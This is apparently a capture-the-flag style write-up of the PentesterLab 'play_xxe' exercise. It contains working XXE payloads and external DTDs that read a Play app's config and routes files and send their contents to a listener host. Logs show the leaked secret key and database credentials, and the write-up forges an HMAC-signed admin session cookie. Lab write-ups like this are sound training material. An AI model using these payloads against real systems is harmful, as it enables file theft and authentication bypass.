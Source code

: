 #### 2.1. About exercise

URL: `https://pentesterlab.com/exercises/play_xxe`

The goal of the lab exercise is to retrieve the cookie signature key from the app's config, and then generate a valid cookie to authenticate as `admin`.

Also, the challenge requires disclosure of all routes to reach the (secret) URL, which may be a protected/internal resources.

Download the ISO for VMWare:
```
$ wget https://pentesterlab.com/exercises/play_xxe/iso
```

#### 2.2. App routes in Play framework

Documentation:
- `https://www.playframework.com/documentation/1.2/routes`
- Files: 
  - `conf/routes`
  - `conf/application.conf`


#### 2.3. Basic detection

```xml
<!DOCTYPE lol [<!ENTITY e "test2"> ]>
<root>
	<a>test1</a>
	<b>&e;</b>
</root>
```

Will most likely timeout:
```xml
<!DOCTYPE data SYSTEM "http://localhost/lol.dtd">
<root>
	<a>test1</a>
	<b>&e;</b>
</root>
```

Pointing the DTD to our server:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.209.146:88/">
<data>&send;</data>
```
Logs:
```
Serving HTTP on 0.0.0.0 port 88 ...
192.168.209.136 - - [05/Mar/2020 07:13:20] "GET / HTTP/1.1" 200 -
```

#### 2.3. Reading the sensitive data

HTTP request:
```
POST http://172.16.201.246/login HTTP/1.1
Host: 172.16.201.246
Upgrade-Insecure-Requests: 1
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

a) DTD file for reading the `application.conf` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/application.conf">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```

b) DTD file for reading the `routes` file:
```
<!ENTITY % f SYSTEM "file:///opt/play-2.1.3/xxe/conf/routes">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```


#### 2.4 HTTP logs

a) Contents of `/opt/play-2.1.3/xxe/conf/application.conf` (URL decoded and formatted):
```
172.16.201.246 - - [05/Dec/2018 06:20:15] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 06:20:15] "GET /?
application.secret="X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG"
application.langs="en"
db.default.driver=com.mysql.jdbc.Driver
db.default.url="mysql://pentesterlab:pentesterlab@localhost/xxe"
ebean.default="models.*"
logger.root=ERROR
logger.play=INFO
logger.application=DEBUG
HTTP/1.1" 200 -
```

b) Contents of `/opt/play-2.1.3/xxe/conf/routes` (URL decoded and formatted):
```
172.16.201.246 - - [05/Dec/2018 06:24:33] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 06:24:33] "GET /?
GET     /                           controllers.Application.index()
GET     /0ecf87346b9c0b370f8d63e6e7fed4f0             controllers.Application.secret_url()
GET       /login                   controllers.Application.login
POST      /login                   controllers.Application.login
GET       /logout                  controllers.Application.logout
GET     /assets/*file               controllers.Assets.at(path="/public", file) 
HTTP/1.1" 200 -
```

To reach the secret page:
```
# http http://172.16.201.246/0ecf87346b9c0b370f8d63e6e7fed4f0 -b
```


#### 2.5. Authentication bypass

Generic cookie format:
```
Cookie: PLAY_SESSION="[signature_goes_here]-user=admin"
```

To sign a valid cookie using `application.secret`:
```
# echo -n 'user=admin' | openssl dgst -sha1 -hmac 'X7G@Abg53=2p=][5F;uMNDm/QrDtVG0^iYHC3]Ov0t0E6b_amL16UynUbqS_?_eG'
(stdin)= a5b8363ce748cfbb5d654edc3676d440173b33de
```

Final cookie:
```
Cookie: PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin"
```

Gaining access as `admin` user:
```
# http http://172.16.201.246/ Cookie:PLAY_SESSION="a5b8363ce748cfbb5d654edc3676d440173b33de-user=admin" -v
```
